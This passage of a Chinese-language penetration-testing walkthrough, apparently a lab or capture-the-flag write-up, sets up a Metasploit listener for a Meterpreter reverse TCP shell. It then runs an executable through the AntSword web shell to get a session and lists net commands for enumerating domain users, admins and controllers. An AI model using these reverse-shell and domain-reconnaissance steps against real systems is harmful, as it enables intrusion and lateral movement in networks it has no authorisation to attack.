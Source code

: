 本地开启监听

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.3
set lport 283
run
```

![image-20250406005324403](./assets/image-20250406005324403.png)



蚁剑中执行exe文件

![image-20250406005344395](./assets/image-20250406005344395.png)

![image-20250406005350384](./assets/image-20250406005350384.png)

成功上线



域内信息收集

```
收集域内信息
内网信息收集的主要目的就是查找域控以及域控内的其他主机

net view                 # 查看局域网内其他主机名
net config Workstation   # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
net user                 # 查看本机用户列表
net user /domain         # 查看域用户
net localgroup administrators # 查看本地管理员组（通常会有域用户）
net view /domain         # 查看有几个域
net user 用户名 /domain   # 获取指定域用户的信息
net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
net group 组名 /domain    # 查看域中某工作组
net group "domain admins" /domain  # 查看域管理员的名字
net group "domain computers" /domain  # 查看域中的其他主机名
net group "domain controllers" /domain  # 查看域控制器主机名（可能有多台）
```
